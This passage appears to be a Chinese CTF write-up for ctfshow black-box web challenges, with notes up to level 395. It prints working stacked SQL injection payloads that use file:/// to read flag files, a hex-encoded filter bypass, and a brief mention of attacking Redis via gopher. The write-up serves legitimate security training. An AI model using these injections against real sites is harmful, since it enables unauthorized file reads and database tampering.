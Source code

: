 
模仿yu师傅的做法
利用堆叠和file://把根目录下的flag内容写到数据库里：

```
/search.php?title=1';1';insert into link values(10,'a','file:///flag');
```

然后访问对应的id即可

![](https://i.loli.net/2021/10/21/ny1EJr4NpReD2Q5.png)

或者像bit师傅：

```
search.php?title=aa';update link set url='file:///flag';select1,2,'a
```

然后随便访问个id，就可得到flag



## 394 过滤，堆叠

> hint：FLAG_NOT_HERE

flag又跑到alsckdfy/check.php里啦，还是可以file://读，但是添加了过滤，可以用十六进制绕过

![](https://i.loli.net/2021/10/21/Qu3xCaFkb69VcBN.png)

```
/search.php?title=1';insert into link values(10,'a',0x66696c653a2f2f2f7661722f7777772f68746d6c2f616c73636b6466792f636865636b2e706870);
```

然后访问`/link.php?id=10`

或

```
1';update link set url=0x66696c653a2f2f2f7661722f7777772f68746d6c2f616c73636b6466792f636865636b2e706870; 
```

然后随便访问个id，就可得到flag

## 395 gopher

同上，也可以像羽师傅的非预期：gopher打redis服务，fastcig

![](https://i.loli.net/2021/10/21/Di2yoOIKWXmUBcV.png)



## 参考文章

[CTFSHOW黑盒测试篇_羽的博客-CSDN博客_ctfshow 黑盒测试](https://blog.csdn.net/miuzzx/article/details/112522873)

[CTFshow---WEB入门---（黑盒测试）380-395 WP - Bit's Blog (xl-bit.cn)](https://www.xl-bit.cn/index.php/archives/22/)

[ctfshow-web入门-黑盒测试 | npfs's blog (npfs06.top)](https://npfs06.top/2021/10/13/ctfshow-web入门-黑盒测试/)

[ctfshow-黑盒测试 | 尘～落 (chenluo77.com)](http://chenluo77.com/2021/07/29/7734.html#toc-heading-10)
